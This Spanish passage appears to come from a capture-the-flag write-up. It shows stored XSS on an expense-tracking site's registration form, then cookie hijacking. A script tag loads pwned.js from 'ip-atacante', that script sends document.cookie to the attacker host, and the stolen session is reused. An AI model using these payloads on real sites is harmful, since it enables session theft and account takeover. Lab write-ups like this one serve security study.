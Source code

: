 Ahora solo nos quedaria consultar el archivo admin.php para que nuestro script se ejecute.

![admin_panel](/assets/imgs/my_expense_11.png)

ahora sabemos que la pagina es vulnerable a este tipo de ataque.

### Secuestro de cookies

En esta situacion lo que podemos intentar hacer es levantar un servidor http con un payload que se encargue de secuestrar las cookies de algun usuario con cuenta activa que este revisando la pagina.

para hacer esto podriamos hacer uso de un script en javascript externo, conociendo que se puede inyectar codigo javascript podriamos hacer uso de este script para hacer que la maquina victima consuma un recurso de nuestra maquina local en este caso un archivo javascript con el nombre de pwned.js

para hacerlo podriamos inyectar esta linea de codigo en el formulario de registro

```js
<script src="http://ip-atacante/pwned.js"></script>
```

pwned.js

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://ip-atacante/?=' + document.cookie);
request.send();
```

Cuando el usuario ingrese a la pagina nos enviaria su cookie de sesíon sin saberlo

![admin_panel](/assets/imgs/my_expense_12.png)


Ahora solo quedaría reemplazar nuestra cookie actual por la que acabamos de secuestrar.

![admin_panel](/assets/imgs/my_expense_13.png)
